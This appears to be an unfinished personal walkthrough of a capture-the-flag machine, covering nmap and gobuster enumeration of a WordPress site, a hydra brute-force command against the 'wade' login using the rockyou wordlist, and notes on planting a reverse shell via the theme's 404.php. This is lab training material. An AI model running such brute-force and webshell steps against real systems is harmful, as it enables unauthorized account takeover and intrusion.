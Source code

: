 # 0. Setup

# 1. Recon & Enumration
## 1.1 nmap

```bash
sudo nmap -A -T4 $TGT -Pn -oN nmapOutput.nmap
```

Options explained: -A runs version detection& default scripts, -T4 is the timing template to use (0: slowest, 5: quickest), $TGT is the target IP variable I have set, -Pn dont run host discovery, -oN is used to output the nmap scan results to a file.

**nmap results:**

IMAGE NMAP

Points of interest from nmap results:
- Port 80 open hosting [Werkzeug](https://pypi.org/project/Werkzeug/)

## 1.2 View Website

We can navigate to the website in browser using the target IP `http://<TGTIP>`
IMAGE WEBSITE BLANK

From here I generally browse the website as a user would do (alongside viewing page sources) to get an idea of the websites functionality and purpose before using enumeration tools.

Potential avenues.
home page:
- Contribute image 
- ![](../../ZZ%20-%20Pasted%20Images/Pasted%20image%2020221005064817.png)
- User wade
- Find login page
	- wp-login.php

```bash
gobuster dir -u http://$TGT/retro -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php     
```

http://10.10.43.131/retro/wp-trackback.php?ID=WADE
![](../../ZZ%20-%20Pasted%20Images/Pasted%20image%2020221005065401.png)


# 2. Exploitation
WP password cracking
Password cracking
```
hydra -l wade -P /usr/share/wordlists/rockyou.txt $TGT http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username"
```

# 3. Post Compromise Enumeration

404.php in theme
Windows web server doesnt support uname so can't use pentestmonkey reverse shell



404 page
http://10.10.43.131/retro/index.php/asdasdasdasd

# 4. Privilege Escalation
